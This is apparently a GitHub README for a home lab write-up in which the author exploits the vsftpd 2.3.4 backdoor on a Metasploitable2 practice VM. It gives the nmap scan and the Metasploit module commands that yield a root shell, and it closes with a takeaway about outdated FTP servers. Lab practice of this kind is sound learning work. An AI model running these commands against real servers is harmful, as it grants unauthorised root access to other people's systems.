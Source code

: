 # metasploit-labs
#exploited the vsftpd 2.3.4 backdoor
# Metasploitable2: FTP Backdoor Exploit (vsftpd 2.3.4)

## 🔍 Target
- IP: 192.168.32.130
- Service: vsftpd 2.3.4 (Port 21)
- Vulnerability: Malicious backdoor triggered by `:)` username

## 🛠️ Tools Used
- Kali Linux
- Nmap
- Metasploit Framework

## 🔎 Recon
```bash
nmap -sV -p 21 192.168.32.130

Output:
21/tcp open  ftp     vsftpd 2.3.4

💣 Exploitation

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.32.130
set RPORT 21
run

✅ Success: Got root shell via backdoor

🧠 Takeaway
Never run outdated FTP servers

This exploit shows how backdoors can be triggered by simple inputs
